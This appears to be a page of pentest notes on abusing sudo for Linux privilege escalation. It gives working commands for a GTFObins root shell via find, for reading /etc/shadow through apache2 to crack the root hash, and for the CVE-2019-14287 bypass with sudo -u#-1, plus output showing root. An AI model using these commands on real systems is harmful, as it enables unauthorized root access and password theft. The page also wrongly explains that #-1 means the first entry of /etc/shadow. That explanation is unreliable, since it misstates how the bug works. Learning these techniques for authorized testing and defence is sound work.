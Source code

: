# Sudo Abuse

running sudo without password is one of the most dangerous things in linux. we can use sudo to run binaries and apps that are vulnerable to shell escape sequence and use them to get a root shell.

GTFObins is a great resource for linux privilege escalation and will help you find vulnerable binaries and methods to use them.

{% embed url="https://gtfobins.github.io/" %}

**`sudo -l`**` ``` >>> see what executable binaries in the system we can use with sudo

![](../../../.gitbook/assets/sudo.png)

for example we search for find command in the web page to see how we can use it to abuse sudo

![](../../../.gitbook/assets/sudo2.png)

we can use this for prives

#### `sudo find . -exec /bin/sh \; -quit`

another example would be apache2 which we can ru usung sudo but it doesnt have an scape sequence to abuse

but there are other methods for this for example apache2 will return an error while parsing a configuration file when it doesnt understand it and it will print out any line of the given file

#### `sudo apache2 -f /etc/shadow`

apache wont understand the /etc/shadow file entries as a config file so it will print out any line that it doesnt understand which will be the root hashed password

![](../../../.gitbook/assets/sudo3.png)

we can now copy and crack the root hash

## <mark style="color:red;">CVE-2019-14287</mark>

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u #$((0xffffffff))" command.

the exploit code can be found here.

{% embed url="https://www.exploit-db.com/exploits/47502" %}

Check for the user sudo permissions

#### `sudo -l`

User hacker may run the following commands on kali:

#### `(ALL, !root) /bin/bash`

#### So user hacker can't run /bin/bash as root (!root)

User hacker sudo privilege in /etc/sudoers

#### `# User privilege specification` `root ALL=(ALL:ALL) ALL`

#### `hacker ALL=(ALL,!root) /bin/bash`

With ALL specified, user hacker can run the binary /bin/bash as any user

### <mark style="color:orange;">Exploit</mark>

**`sudo -u#-1 /bin/bash`** → #-1 means the the first entry of the /etc/shadow file (root) so we can specify any user ID with a + like: #+1000

Example :

#### `hacker@kali:~$ sudo -u#-1 /bin/bash` `root@kali:/home/hacker# id` `uid=0(root) gid=1000(hacker) groups=1000(hacker)` `root@kali:/home/hacker#`

#### <mark style="color:green;">Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id and /bin/bash is executed with root permission Proof of Concept Code :</mark>

#### `python3 sudo_exploit.py`
